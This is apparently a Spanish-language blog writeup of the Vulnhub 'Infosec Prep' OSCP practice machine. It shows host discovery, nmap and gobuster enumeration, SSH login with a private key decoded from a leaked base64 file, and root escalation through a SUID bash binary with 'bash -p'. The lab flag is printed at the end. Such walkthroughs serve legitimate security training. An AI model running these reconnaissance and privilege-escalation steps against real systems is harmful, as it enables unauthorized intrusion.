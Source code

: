 ```yaml
---
title: Infosec Prep Writeup - Vulnhub
date: 2025-03-12
categories: [Writeups, Vulnhub OSCP Prep]
tags: [Linux, Vulnhub, CTF, Infosec, OSCP Prep]
image:
  path: /assets/img/commons/vulnhub/infosecprep/portada.png
---
```


Anterior [*OSCP Lab 19*](https://lvs3c.github.io/posts/OSCP-eLection1/)

¡Saludos!

**`OSCP Lab 20`**

En este writeup, realizaremos la máquina [**Infosec Prep**](https://www.vulnhub.com/entry/infosec-prep-oscp,508/). 

Se trata de una máquina **Linux** en la cual veremos:
- **Enumeración de servicios**.
- Desencriptar cadena obteniendo la **Clave privada** del usuario.
- Y por último, tenemos permisos **SUID** sobre la bash, elevamos nuestros privilegios y listamos la root flag.

¡Empecemos!

## Reconocimiento activo

---

Necesitamos encontrar la ip correspondiente a la máquina, lo hacemos mediante la herramienta `arp-scan` y posteriormente el comando `ping` para verificar si la máquina objetivo está activa.

```bash
❯ sudo arp-scan -I ens37 --localnet --ignoredups
Interface: ens37, type: EN10MB, MAC: 00:0c:29:ef:5b:48, IPv4: 10.11.12.10
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
10.11.12.1      00:50:56:c0:00:01       VMware, Inc.
10.11.12.53     00:0c:29:b9:54:f6       VMware, Inc.
10.11.12.200    00:50:56:e9:ee:69       VMware, Inc.

3 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 2.400 seconds (106.67 hosts/sec). 3 responded
```

```bash
❯ ping -c 1 10.11.12.53
PING 10.11.12.53 (10.11.12.53) 56(84) bytes of data.
64 bytes from 10.11.12.53: icmp_seq=1 ttl=64 time=0.415 ms

--- 10.11.12.53 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.415/0.415/0.415/0.000 ms
```

## Escaneo - Enumeración

---

A continuación, realizamos un escaneo con `Nmap`.

```bash
❯ sudo nmap -p- -sCV 10.11.12.53 -oN nmap_services
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-11 22:41 -03

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 91:ba:0d:d4:39:05:e3:13:55:57:8f:1b:46:90:db:e4 (RSA)
|   256 0f:35:d1:a1:31:f2:f6:aa:75:e8:17:01:e7:1e:d1:d5 (ECDSA)
|_  256 af:f1:53:ea:7b:4d:d7:fa:d8:de:0d:f2:28:fc:86:d7 (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: OSCP Voucher &#8211; Just another WordPress site
| http-robots.txt: 1 disallowed entry
|_/secret.txt
|_http-generator: WordPress 5.4.2
|_http-server-header: Apache/2.4.41 (Ubuntu)
33060/tcp open  mysqlx?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port33060-TCP:V=7.94SVN%I=7%D=3/11%Time=67D0E64B%P=x86_64-pc-linux-gnu%
SF:r(GenericLines,9,"\x05\0\0\0\x0b\x08\x05\x1a\0");
MAC Address: 00:0C:29:B9:54:F6 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 170.27 seconds
```

El informe de `Nmap` nos revela:
- Puerto `22` servidor `OpenSSH 8.2p1`.
- Puerto `80` servidor `Apache httpd 2.4.41`.


### HTTP - 80

![web80](/assets/img/commons/vulnhub/infosecprep/web80.png){: .center-image }
![oscp](/assets/img/commons/vulnhub/infosecprep/oscp.png){: .center-image }

Continuamos realizando un fuzzing de directorios rápido con el script `http-enum` de nmap.

```bash
❯ sudo nmap -p80 --script http-enum 10.11.12.53 -oN nmap_webscan
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-11 22:46 -03
Nmap scan report for 10.11.12.53
Host is up (0.00021s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-enum:
|   /wp-login.php: Possible admin folder
|   /robots.txt: Robots file
|   /readme.html: Wordpress version: 2
|   /: WordPress version: 5.4.2
|   /wp-includes/images/rss.png: Wordpress version 2.2 found.
|   /wp-includes/js/jquery/suggest.js: Wordpress version 2.5 found.
|   /wp-includes/images/blank.gif: Wordpress version 2.6 found.
|   /wp-includes/js/comment-reply.js: Wordpress version 2.7 found.
|   /wp-login.php: Wordpress login page.
|   /wp-admin/upgrade.php: Wordpress login page.
|_  /readme.html: Interesting, a readme.
MAC Address: 00:0C:29:B9:54:F6 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 0.83 seconds
```

Lanzamos `gobuster` para tener más información.

```bash
❯ gobuster dir -u http://10.11.12.53 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -e -b 403,404 -x php,txt,html,sh,zip
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.11.12.53
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.6
[+] Extensions:              zip,php,txt,html,sh
[+] Expanded:                true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
http://10.11.12.53/index.php            (Status: 301) [Size: 0] [--> http://10.11.12.53/]
http://10.11.12.53/wp-content           (Status: 301) [Size: 315] [--> http://10.11.12.53/wp-content/]
http://10.11.12.53/wp-login.php         (Status: 200) [Size: 4778]
http://10.11.12.53/license.txt          (Status: 200) [Size: 19915]
http://10.11.12.53/wp-includes          (Status: 301) [Size: 316] [--> http://10.11.12.53/wp-includes/]
http://10.11.12.53/javascript           (Status: 301) [Size: 315] [--> http://10.11.12.53/javascript/]
http://10.11.12.53/readme.html          (Status: 200) [Size: 7278]
http://10.11.12.53/robots.txt           (Status: 200) [Size: 36]
http://10.11.12.53/wp-trackback.php     (Status: 200) [Size: 135]
http://10.11.12.53/secret.txt           (Status: 200) [Size: 3502]
http://10.11.12.53/wp-admin             (Status: 301) [Size: 313] [--> http://10.11.12.53/wp-admin/]
http://10.11.12.53/xmlrpc.php           (Status: 405) [Size: 42]
http://10.11.12.53/wp-signup.php        (Status: 302) [Size: 0] [--> http://10.11.12.53/wp-login.php?action=register]
Progress: 1323360 / 1323366 (100.00%)
===============================================================
Finished
===============================================================
```

Validamos el archivo `secret.txt`.

![secret](/assets/img/commons/vulnhub/infosecprep/secret.png){: .center-image }

Desencriptamos la cadena en base64.

![secretb64](/assets/img/commons/vulnhub/infosecprep/secretb64.png){: .center-image }

Obtenemos una clave privada de ssh y como vimos sólo existe el usuario `oscp`.


## Explotación

---

Ingresamos por SSH utilizando la clave privada.

```bash
❯ ssh oscp@10.11.12.53 -i secretb64
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-40-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 12 Mar 2025 01:59:09 AM UTC

  System load:  0.0                Processes:             211
  Usage of /:   26.0% of 19.56GB   Users logged in:       0
  Memory usage: 77%                IPv4 address for eth0: 10.11.12.53
  Swap usage:   1%


0 updates can be installed immediately.
0 of these updates are security updates.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Wed Mar 12 01:52:09 2025 from 10.11.12.10
-bash-5.0$
```


## Escalación de privilegios

---

Listamos los permisos `SUID`{: .filepath} del sistema y vemos que tenemos permisos sobre la `bash`{: .filepath}, la ejecutamos con privilegios y somos root.

Listamos la root flag.

```bash
bash-5.0$ find / -perm -4000 2>/dev/null | grep -v snap
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/fusermount
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/at
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/bash
/usr/bin/pkexec
/usr/bin/umount
/usr/bin/chsh
/usr/bin/su
bash-5.0$ bash -p
bash-5.0# id
uid=1000(oscp) gid=1000(oscp) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd),1000(oscp)
bash-5.0# cd /root/
bash-5.0# ls
fix-wordpress  flag.txt  snap
bash-5.0# cat flag.txt
d73b04b0e696b0945283defa3eee4538
```

Hope it helps!